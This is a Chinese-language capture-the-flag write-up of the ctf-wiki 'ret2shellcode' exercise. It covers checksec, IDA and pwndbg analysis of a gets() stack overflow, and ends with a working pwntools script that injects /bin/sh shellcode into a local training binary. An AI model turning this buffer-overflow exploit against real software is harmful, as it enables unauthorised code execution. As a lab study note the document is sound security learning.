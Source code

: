 # ret2shellcode

> 出自 https://github.com/ctf-wiki/ctf-wiki 中的Pwn: Linux Pwn: 栈溢出: 基本ROP
>
> writer: github.com/kokifish   data: 2021.3   contact: hexhex16@outlook.com
>
> file: ret2shellcode     (download from https://github.com/ctf-wiki/ctf-wiki)
>
> 原始出处未知，非比赛题目(也许)，故所在文件夹命名方式有所区别

- 使用自行构造的`sh`指令码
- TBD: 无法获取稳定shell，疑似与bss段没有可执行权限有关，vmmap显示的内容与ctf-wiki上展示的不同

# checksec

- 使用的是从 https://github.com/slimm609/checksec.sh 安装的新版`checksec`

```bash
$ checksec --file=ret2shellcode
RELRO          STACK CANARY     NX           PIE     RPATH     RUNPATH     Symbols      FORTIFY Fortified Fortifiable  FILE
Partial RELRO  No canary found  NX disabled  No PIE  No RPATH  No RUNPATH  79) Symbols    No    0         3            ret2shellcode
$ checksec --version
checksec v2.4.0, Brian Davis, github.com/slimm609/checksec.sh, Dec 2015
Based off checksec v1.5, Tobias Klein, www.trapkit.de, November 2011
```

- 注意没有canary，没有NX（no-execute disabled）即没有禁止执行保护

# IDA Analysis

- IDA显示的main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets(s);
  strncpy(buf2, s, 0x64u);
  printf("bye bye ~");
  return 0;
}
```

- 代码中将输入的字符串`s`复制到了`buf2`中，`buf2`在内存的`.bbs`段，该段存储没有初始化的和初始化为0的全局变量。`.bbs`段相关知识查看https://github.com/kokifish/Markdown_Note/blob/master/%5BProgram%5D_C_Cpp_Python_php_Latex_DataBase/%5Bc%5D_Basis_DataType_Pointer_DataArea_Heap_Stack_BitOperation_bool.md
- IDA中显示的`buf2`存储的区域：

```c
.bss:0804A080                 public buf2
.bss:0804A080 ; char buf2[100]
.bss:0804A080 buf2            db 64h dup(?)           ; DATA XREF: main+7B↑o
.bss:0804A080 _bss            ends
```



# gdb(pwndbg) Analysis

- 已安装pwndbg

```bash
$ chmod 777 ./ret2shellcode
$ gdb -q ret2shellcode
pwndbg: loaded 188 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ret2shellcode...
pwndbg> b main
Breakpoint 1 at 0x8048536: file ret2shellcode.c, line 8.
pwndbg> r
Starting program: /home/kali/CTF/pwn/ret2shellcode

Breakpoint 1, main () at ret2shellcode.c:8
8       ret2shellcode.c: No such file or directory.
......................
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/kali/CTF/pwn/ret2shellcode
 0x8049000  0x804a000 r--p     1000 0      /home/kali/CTF/pwn/ret2shellcode
 0x804a000  0x804b000 rw-p     1000 1000   /home/kali/CTF/pwn/ret2shellcode
0xf7dca000 0xf7de7000 r--p    1d000 0      /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7de7000 0xf7f3c000 r-xp   155000 1d000  /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7f3c000 0xf7fac000 r--p    70000 172000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fac000 0xf7fad000 ---p     1000 1e2000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fad000 0xf7faf000 r--p     2000 1e2000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7faf000 0xf7fb1000 rw-p     2000 1e4000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fb1000 0xf7fb3000 rw-p     2000 0
0xf7fcb000 0xf7fcd000 rw-p     2000 0
0xf7fcd000 0xf7fd1000 r--p     4000 0      [vvar]
0xf7fd1000 0xf7fd3000 r-xp     2000 0      [vdso]
0xf7fd3000 0xf7fd4000 r--p     1000 0      /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7fd4000 0xf7ff1000 r-xp    1d000 1000   /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ff1000 0xf7ffc000 r--p     b000 1e000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ffc000 0xf7ffd000 r--p     1000 28000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ffd000 0xf7ffe000 rw-p     1000 29000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xfffdd000 0xffffe000 rwxp    21000 0      [stack]
```

- 注意` 0x804a000  0x804b000 rw-p     1000 1000   /home/kali/CTF/pwn/ret2shellcode`这是`buf2`所在的区域
- 这里和ctf-wiki上显示的不一致，`0x804a000  0x804b000  rw-p`这一段并没有执行(`x`)权限





```c
$ gdb ./ret2shellcode -q
pwndbg: loaded 188 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./ret2shellcode...
pwndbg> b *0x080485AF
Breakpoint 1 at 0x80485af: file ret2shellcode.c, line 15.
pwndbg> r
Starting program: /home/kali/CTF/pwn/ret2shellcode
No system for you this time !!!
abcdabcd123456789

Breakpoint 1, 0x080485af in main () at ret2shellcode.c:15
15      ret2shellcode.c: No such file or directory.
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────
 EAX  0xffffd3bc ◂— 'abcdabcd123456789'
 EBX  0x0
 ECX  0xf7faf580 (_IO_2_1_stdin_) ◂— 0xfbad2288
 EDX  0xfbad2288
 EDI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 ESI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 EBP  0xffffd428 ◂— 0x0
 ESP  0xffffd3a0 —▸ 0x804a080 (buf2) ◂— 0x0
 EIP  0x80485af (main+130) —▸ 0xfffe6ce8 ◂— 0x0
────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────
 ► 0x80485af <main+130>    call   strncpy@plt <strncpy@plt>
        dest: 0x804a080 (buf2) ◂— 0x0
        src: 0xffffd3bc ◂— 'abcdabcd123456789'
        n: 0x64

   0x80485b4 <main+135>    mov    dword ptr [esp], 0x8048680
   0x80485bb <main+142>    call   printf@plt <printf@plt>

   0x80485c0 <main+147>    mov    eax, 0
   0x80485c5 <main+152>    leave
   0x80485c6 <main+153>    ret

   0x80485c7               nop             ..............
────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────
00:0000│ esp  0xffffd3a0 —▸ 0x804a080 (buf2) ◂— 0x0
01:0004│      0xffffd3a4 —▸ 0xffffd3bc ◂— 'abcdabcd123456789'
02:0008│      0xffffd3a8 ◂— 0x64 /* 'd' */
03:000c│      0xffffd3ac ◂— 0x0
04:0010│      0xffffd3b0 —▸ 0xf7ffd000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x29f3c
05:0014│      0xffffd3b4 —▸ 0xffffd43c —▸ 0xffffd464 ◂— 0x0
06:0018│      0xffffd3b8 ◂— 0x2
07:001c│ eax  0xffffd3bc ◂— 'abcdabcd123456789'
────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────
 ► f 0  80485af main+130
   f 1 f7de8e46 __libc_start_main+262
```

- s的地址：`0xffffd3bc`
- `ebp`栈帧基地址：`0xffffd428`,  s相对于`ebp`的偏移为 `0xffffd3bc - 0xffffd428` = `-0x6c`

# Exploit

- 获取的shell不稳定，疑似与前面显示的`0x804a000  0x804b000  rw-p`这一段没有执行(`x`)权限有关

```python
#!/usr/bin/env python
from pwn import *
context.log_level = 'debug'
context.binary = './ret2shellcode'  # context(os='linux', arch='i386')
print(context)

sh = process('./ret2shellcode')
gdb.attach(sh)
# shellcraft.i386.linux.sh()  #shellcraft.sh()
shellcode = asm(shellcraft.sh())  # type(shellcraft.sh()): str 为汇编代码 # 构造自己的sh汇编码
print("shellcode: ", type(shellcode), shellcode)
buf2_addr = 0x0804A080
payload = shellcode.ljust(0x6c + 4, b'A') + p32(buf2_addr)
sh.sendline(payload)
# b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80AA...A\x80\xa0\x04\x08'
print("sendline: ", type(payload), len(payload), " : ", payload)
sh.interactive()
```






